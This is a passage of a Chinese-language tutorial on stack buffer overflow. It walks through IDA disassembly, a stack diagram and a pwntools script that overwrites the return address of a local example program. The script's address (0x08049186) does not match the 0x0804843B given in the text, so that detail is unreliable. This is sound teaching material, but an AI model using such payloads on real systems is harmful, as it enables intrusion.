 並且，我們可以通過 IDA 獲得 success 的地址，其地址爲 0x0804843B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那麼如果我們讀取的字符串爲

```
0x14*'a'+'bbbb'+success_addr
```

那麼，由於 gets 會讀到回車纔算結束，所以我們可以直接讀取所有的字符串，並且將 saved ebp 覆蓋爲 bbbb，將 retaddr 覆蓋爲 success_addr，即，此時的棧結構爲

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由於在計算機內存中，每個值都是按照字節存儲的。一般情況下都是採用小端存儲，即0x0804843B 在內存中的形式是

```text
\x3b\x84\x04\x08
```

但是，我們又不能直接在終端將這些字符給輸入進去，在終端輸入的時候\，x等也算一個單獨的字符。。所以我們需要想辦法將 \x3b 作爲一個字符輸入進去。那麼此時我們就需要使用一波 pwntools 了(關於如何安裝以及基本用法，請自行 github)，這裏利用 pwntools 的代碼如下：

```python
##coding=utf8
from pwn import *
## 構造與程序交互的對象
sh = process('./stack_example')
success_addr = 0x08049186
## 構造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序發送字符串
sh.sendline(payload)
## 將代碼交互轉換爲手工交互
sh.interactive()
```
